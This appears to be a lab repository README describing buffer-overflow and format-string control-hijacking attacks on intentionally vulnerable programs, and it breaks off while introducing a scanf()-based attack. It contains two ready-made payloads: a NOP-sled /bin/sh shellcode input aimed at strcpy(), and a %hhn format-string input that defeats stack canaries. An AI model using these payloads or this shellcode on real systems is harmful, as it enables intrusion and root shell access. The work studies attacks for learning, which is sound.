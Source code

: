 # Control Hijacking Attack
In this repository, I implemented some buffer overflow controlling hijacking attacks which all are described down below. You can find Executable Linkable Formats(ELF) of these
programs named "prog_vuln#" and corresponding inputs for each of them named "expoit#.sh" which were designed to overflow the buffers of program and rewrite some specific addresses
of the memory to change control flow of the program which will result in getting shell with sudo privileged.
## prog_vuln1
To perform this attack I used vulnerability of <b>strcpy()</b> function which does not check the length of strings before copy. As a result it will be possible to perform <b>buffer overflow</b> write some specific 
addresses in the stack and change the pointer to the start of shell code. You can see related commands in the following.
```
$(python -c 'print("\x90"*63 +
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x0
8\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "w"
*500 + "\x90\xf0\xff\xbf")')
```
## prog_vuln3
In this part there are some <b>canaries</b> (stack guard) in the address space of the program. So it isn't possible to overflow the program because all return addresses will be protected by these structures. To perform the attack I used <b>format stringing</b>. In this approach we exploit vulnerability of <b>printf()</b> function.   
We know that every time we use "%n"
in printf(), this function will write number of the bytes before this symbol at the top of stack. But It's not possible to enter these huge number of inputs to printf(), So I'll use "%hhn" that only writes the number of inputs in one byte of address which placed top of the stack. so we should sort all bytes of addresses which we want to write on and place the desired addressed in reverse order at the top of stack. you can see the designed input down below.
```
$(python -c
'print("\xb8\xfb\xff\xbf\xb7\xfb\xff\xbf\xb6\xfb\xff\xbf\xb5\xfb\xff\xbf\x9d\xfb\xff\xbf\xa4\xfb\xff\x
bf\xa0\xfb\xff\xbf\x9c\xfb\xff\xbf\xa1\xfb\xff\xbf\xa5\xfb\xff\xbf" + 160 * "w" + "%n%hhn%hhn" +
104 * "w" + "%hhn" + 11 * "w" + "%hhn" + 18 * "w" + "%hhn" + 35 * "w" + "%hhn" + 8 * "w" + "%hhn"
+ 64 * "w" +"%hhn" + 11 * "w" + "%hhn" + "%hhn" + 9 * "w")')
```
## prog_vuln4
In this part I used vulnerabilities of <b>scanf()</b> function which doesn't check whether input string match the space dedicated for it or not.  
In this program stack guards were deactivated but there is <b>NON-Executable Stack</b> protection.
